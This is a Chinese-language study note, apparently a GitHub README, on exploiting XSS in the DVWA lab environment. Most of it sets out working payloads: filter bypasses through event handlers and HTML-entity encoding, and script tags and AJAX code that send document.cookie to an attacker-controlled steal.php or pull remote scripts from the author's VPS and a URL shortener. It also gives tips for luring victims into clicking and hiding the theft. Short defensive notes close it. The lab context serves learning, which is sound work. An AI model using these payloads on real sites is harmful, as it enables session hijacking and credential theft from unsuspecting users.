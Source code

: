 ## dvwa学习xss

### 测试环境

win7虚拟机 ，ip 192.168.255.151，用phpstudy将dvwa 环境 搭在 8081端口

一台物理机，ip 192.168.1.101,作为我的vps，用于获取xss返回的cookie,用phpstudy搭建的环境，808端口存有 cookie.js，steal.php等文件

火狐浏览器，谷歌浏览器有 xss filter

文件说明：

cookie.js 为获取cookie的js,没使用ajax，会跳转到密码修改成功页面，不推荐使用。

b.js 为js操作ajax，支持最为广泛，payload 代码量较少。

c.js 为jq操作ajax，需要payload引入支持jq的js，payload 较长。

steal.php 为 操作数据库的 php，将js 获取 的cookie 等 存入 vps的数据库。

搭建数据库sql：

```

	create database dvwacookie;
	
	use dvwacookie;
	
	create table low(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table medium(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table high(id int not null auto_increment primary key,cookie varchar(100) not null);

```


### 参考资料

[新手科普 通过DVWA学习XSS](https://www.freebuf.com/articles/web/157953.html)

[针对不同标签的xss利用汇总](https://www.cnblogs.com/xiaozi/p/5588099.html)

[xssbypass](https://d3adend.org/xss/ghettoBypass)

[xss变形](https://www.jb51.net/tools/xss.htm)


### xss介绍

WEB前端中最常见的两种安全风险，XSS与CSRF，XSS，即跨站脚本攻击、CSRF即跨站请求伪造,两者属于跨域安全攻击。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

xss分为 存储型，反射型，dom型。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

存储型xss 通过留言板等输入框注入的脚本存在于靶机服务器的数据库中

反射性xss 利用脚本与服务器交互，绕过限制

DOM型的XSS是不需要与服务器交互的，它只发生在客户端处理数据阶段。

简单理解DOM XSS就是出现在javascript代码中的xss漏洞。

DOM型XSS是前端代码中存在了漏洞，而反射型和存储型是后端代码中存在了漏洞。

反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，在dom xss中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

### xss危害

获取到用户的cookie信息或者劫持用户跳转到钓鱼网站
 

### 专用扫描工具

XSSER,XSSF等

工具扫描效率高存在误报，不如手动扫描准确。

### xss利用


#### 注入方式

1双写绕过

2大小写混淆绕过

3虽然无法使用```<script>```标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```

	<iframe src=1 onload='alert(1)' /><iframe>

	<iframe src=1 onmouseover=alert('xss') y=2016 /><iframe>
	
	<iframe src="../csrf" onload='alert(frames[0].document.getElementsByName("user_token")[0].value)'>

	<img src=1 onerror=alert(/xss/)>

	<body onload='alert(/xss/)'</body>

	<svg onload=alert("xss")>
	
```

4 dom xss 注入

4.1 标签闭合  （会破坏页面结构，隐蔽性不如注释方法）

```></option></select><img src=1 onerror=alert('hack')>```

```</option></select><svg onload=alert("xss")>```
 
4.2  注释

``` #<script src=http://192.168.1.101:808/b.js></script>``` 
\#会注释掉，后面的内容不会发送到后台

5. 存储型和反射型xss

为了绕过  '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i'  正则，

可将插入代码中的i进行html字符实体编码以绕过正则

```<img src=# onerror=(locat&#x69;on.href="http://192.168.1.101:8081/steal.php?data="+document.cookie)>```

直接跳转到steal.php

[**html字符 转换 字符实体在线编码**](https://www.qqxiuzi.cn/bianma/zifushiti.php)

在python 中解码函数 print (html.unescape('&#20013;&#22269;'))


js操作ajax(注入字符过多，不推荐)

```
	<img src=# onerror='var url="http://192.168.1.101:808/steal.php";var postStr="data="+document.cook&#x69;e;var ajax=null;&#x69;f(w&#x69;ndow.XMLHttpRequest){ajax=new XMLHttpRequest();}else &#x69;f(w&#x69;ndow.Act&#x69;veXObject){ajax=new Act&#x69;veXObject("M&#x69;crosoft.XMLHTTP");}else{ajax=null;}ajax.open("POST",url,true);ajax.setRequestHeader("Content-Type", "appl&#x69;cat&#x69;on/x-www-form-urlencoded");ajax.send(postStr);'>
```

jq操作ajax(注入字符过多，不推荐)(这里使用短链接会异常，应该是浏览器解析dom的问题)

```
	<img src=# onerror="var a=document.createElement('scr&#x69;pt');a.setAttr&#x69;bute('src', 'https://dwz.cn/tA0Ob030');document.getElementsByTagName('head')[0].appendCh&#x69;ld(a);var b= document.createElement('scr&#x69;pt'); b.setAttr&#x69;bute('src','http://192.168.1.101:808/c.js');document.getElementsByTagName('head')[0].appendChild(b);">
```

```ALTER TABLE guestbook MODIFY name VARCHAR(180);```

**js操作原生态ajax,不用引用jquery，最节省代码**,171字符

```	
	<img src=# onerror="var b= document.createElement('scr&#x69;pt');
	b.setAttribute('src','http://192.168.1.101:808/b.js');
	document.getElementsByTagName('head')[0].appendChild(b);">
```

6.限制输入字符长度的浏览器注入方法

chrome: F12 ，Elements , 选定元素，Edit as HTML

firefox:F12 ，inspector/查看器，编辑html， 修改 maxlength

7.记录cookie

	<img src=# onerror=(location.href="http://192.168.1.101:808/steal.php?data="+document.cookie)>


这种方式有个缺点就是将cookie发送到steal.php后他会刷新页面跳转到steal.php，所以要用ajax优化

在有xss漏洞的位置插入:


```<script src=http://192.168.1.101:808/cookie.js></script>```

相当于构造链接:

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/xss_r/?name=<script src=http://192.168.1.101:808/cookie.js></script>```

也可以用jquery操作ajax，但是需要引入头文件例如 ```https://cdn.bootcss.com/jquery/1.10.2/jquery.min.js```

[**百度短网址**](https://dwz.cn/)

```<script src=https://dwz.cn/tA0Ob030></script><script src=http://192.168.1.101:808/c.js></script>```   成功跨域获取cookie,压缩到刚好100字节(还可以服务器使用80端口继续压缩字节)

**将链接发给该网站下的受害者，受害者点击时就会加载远程服务器（vps）上的cookie.js脚本，这里要提一点，用src加载远程服务器的js脚本，那么js的源就会变成加载它的域，从而可以读取该域的数据。这时，vps的数据库就接收到了cookie。**

观察firebug的javascript控制台，看到已拦截跨源请求：同源策略禁止读取位于 ```http://192.168.1.101:808/steal.php``` 的远程资源。（原因：CORS 头缺少 'Access-Control-Allow-Origin'）

因为ajax严格遵从同源策略，当前加载cookie.js的域为```http://192.168.255.151:8081```,所以ajax不能读取不同域```http://192.168.1.101```下的数据，但是cookie已经被发送到了```http://192.168.1.101```域，steal.php已经将偷取到的cookie存放在了数据库中,而且页面没有刷新，很隐蔽。



### xss反制

htmlspecialchars 把预定义的字符&、”、 ’、<、>转换为 HTML 实体，防止浏览器将其作为HTML元素。转义可能引起跨站漏洞的标签

http层做到防护，给cookie设置httponly属性，使cookie不能被javascript读取，才能有效防止用户cookie被盗用的问题